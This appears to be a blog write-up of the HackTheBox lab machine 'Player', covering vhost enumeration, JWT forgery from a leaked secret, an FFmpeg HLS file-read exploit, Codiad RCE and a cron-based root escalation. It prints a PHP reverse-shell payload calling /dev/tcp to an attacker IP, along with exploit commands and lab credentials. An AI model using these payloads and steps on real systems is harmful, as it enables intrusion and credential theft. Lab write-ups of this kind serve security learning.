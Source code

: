 ```yaml
---
title: "HackTheBox - WriteUp 16"
date: 2019-07-17T21:06:35+08:00
description: "HackTheBox 练手 - Player - Code Review with FFMPEG Vuln"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Player

Nmap enum 22(SSH 6.6.1p1), 80(Apache Web 2.4.7 With PHP 5.5.9), 6686(SSH 7.2p1)

## User

First, access 80, get 403. We need enum vhost.

Use gobuster here: `gobuster vhost -r -u http://player.htb -o /tmp/player1.log -w ./subdomains-top1mil-20000.txt`, Found: `dev` `staging` `chat`

Add the following lines into `/etc/hosts`:

```
10.10.10.145 dev.player.htb
10.10.10.145 staging.player.htb
10.10.10.145 chat.player.htb
10.10.10.145 player.htb
```

Check `chat`, you'll know there's application backup file disclosure and credentials leak in other places.

Then enum dir `gobuster dir -u http://staging.player.htb -s 200,204,301,302,307 -o /tmp/dirbplayer.log -w ./directory-list-2.3-medium.txt -x html,php,htm,txt`, nothing special.

Then enum dir `gobuster dir -u http://player.htb -s 200,204,301,302,307 -o /tmp/dirbplayer_main.log -w ./directory-list-2.3-medium.txt -x html,php,htm,txt`, found `/launcher`.

After that, go to Staging, Check all pages, found a contact form, submit anything, you'll see a error page flashing... Then, enable burpsuite, catch the local file disclosure:

```php
array(3) { 
    [0]=> array(4) { 
        ["file"]=> string(28) "/var/www/staging/contact.php" 
        ["line"]=> int(6) 
        ["function"]=> string(1) "c" 
        ["args"]=> array(1) { 
            [0]=> &string(9) "Cleveland" } 
        } 
    [1]=> array(4) { 
        ["file"]=> string(28) "/var/www/staging/contact.php" 
        ["line"]=> int(3) 
        ["function"]=> string(1) "b" 
        ["args"]=> array(1) { 
            [0]=> &string(5) "Glenn" } 
        } 
    [2]=> array(4) { 
        ["file"]=> string(28) "/var/www/staging/contact.php" 
        ["line"]=> int(11) 
        ["function"]=> string(1) "a" 
        ["args"]=> array(1) { 
            [0]=> &string(5) "Peter" } 
        } 
    } 
Database connection failed.
Unknown variable user in /var/www/backup/service_config fatal error in /var/www/staging/fix.php
```
Check the source code of Dev, app.js showed Codiad WebIDE, 0-Day RCE can be found here: https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit

Then check `player.htb/launcher` source code, you'll get a php named in a strange way. Check about backup file, found: `http://player.htb/launcher/dee8dc8a47256c64630d803a4c40786c.php~`, It's about JSON Web Token, according to its code, The JWT Token can be build as is:

- Algorithm: HS256
- Type: JWT
- Base64Encoded Secret: /S0/R@nd0m/P@ss/
- Correct Payload:  `{"project": "PlayBuff","access_code":"0E76658526655756207688271159624026011393"}`

So, Use the above param, you get the cookie: `access = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwcm9qZWN0IjoiUGxheUJ1ZmYiLCJhY2Nlc3NfY29kZSI6IjBFNzY2NTg1MjY2NTU3NTYyMDc2ODgyNzExNTk2MjQwMjYwMTEzOTMifQ.GgZP6ZYiWPFtzyHxGVn6Cl_PFkt0UpBe8cTyTF13ot4`

Clear all your current cookies, then set cookie above, open `http://player.htb/launcher/`, input anything into the form, then submit. You'll be redirected to: `http://player.htb/launcher/7F2dcsSdZo6nj3SNMTQ1/`, You'll see a Secure Video Page. Mostly, video convert use FFMpeg, so let's search, found this: `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS`

Run exploit with: `python3 ./gen_avi_bypass.py file:///var/www/backup/service_config backup_servc.avi` to read the file we just get from error message. Get output downloaded. You will found a cred: `telegen:d-bC|jC!2uepS/w`.

Try to logged in via SSH, get limited shell and cannot escape. Next, try `https://www.exploit-db.com/exploits/39569` , after you get xauth shell, run `.readfile /var/www/staging/fix.php`, you will get another creds: `peter:CQXpm\z)G5D#%S$y=`

Logged into dev site, you found no plugin manager, so you can't upload anything. Try `https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit`, with `python2 ./exploit.py http://dev.player.htb/ peter "CQXpm\\z)G5D#%S\$y=" 10.10.16.80 4499 linux`, you'll get a reverse shell as `www-data`.

Use Python 3 to spawn a pty, `python3 -c "import pty; pty.spawn('/bin/bash')"`, then `su -s /bin/bash telegen`, use the creds above, you can access the user flag.

## Root

Run `pspy64`, then upload a php file:

```php
<?php 
shell_exec("bash -c 'bash -i &>/dev/tcp/10.10.16.80/23032 0<&1'"); 
?>
```

According to pspy, cron run a PHP per minute, which located at: `/var/lib/playbuff/buff.php`

```php
<?php
include("/var/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.php");
class playBuff
{
        public $logFile="/var/log/playbuff/logs.txt";
        public $logData="Updated";

        public function __wakeup()
        {
                file_put_contents(__DIR__."/".$this->logFile,$this->logData);
        }
}
$buff = new playBuff();
$serialbuff = serialize($buff);
$data = file_get_contents("/var/lib/playbuff/merge.log");
if(unserialize($data))
{
        $update = file_get_contents("/var/lib/playbuff/logs.txt");
        $query = mysqli_query($conn, "update stats set status='$update' where id=1");
        if($query)
        {
                echo 'Update Success with serialized logs!';
        }
}
else
{
        file_put_contents("/var/lib/playbuff/merge.log","no issues yet");
        $update = file_get_contents("/var/lib/playbuff/logs.txt");
        $query = mysqli_query($conn, "update stats set status='$update' where id=1");
        if($query)
        {
                echo 'Update Success!';
        }
}
?>
```

The file content of `/var/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.php`:

```php
<?php
$servername = "localhost";
$username = "root";
$password = "";
$dbname = "integrity";

// Create connection
$conn = new mysqli($servername, $username, $password, $dbname);
// Check connection
if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}
?>
```

Included PHP will be executed, so just append the shell you just uploaded to `dee8dc8a47256c64630d803a4c40786g.php`: `cat shell.php >> dee8dc8a47256c64630d803a4c40786g.php`.

Then open an nc before you append, you will get a root shell.

(END)

# Referrence

- https://www.exploit-db.com/exploits/39569
- https://www.rapid7.com/db/vulnerabilities/http-php-temporary-file-source-disclosure
- https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit
- https://jwt.io
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS
- https://github.com/firebase/php-jwt
- https://stackoverflow.com/questions/12823770/does-php-code-execute-when-included

# Further Reading: Improvement

- https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/
- https://www.notsosecure.com/remote-code-execution-via-php-unserialize/
- https://securitycafe.ro/2015/01/05/understanding-php-object-injection/
- https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-dirty-cow-linux-vulnerability


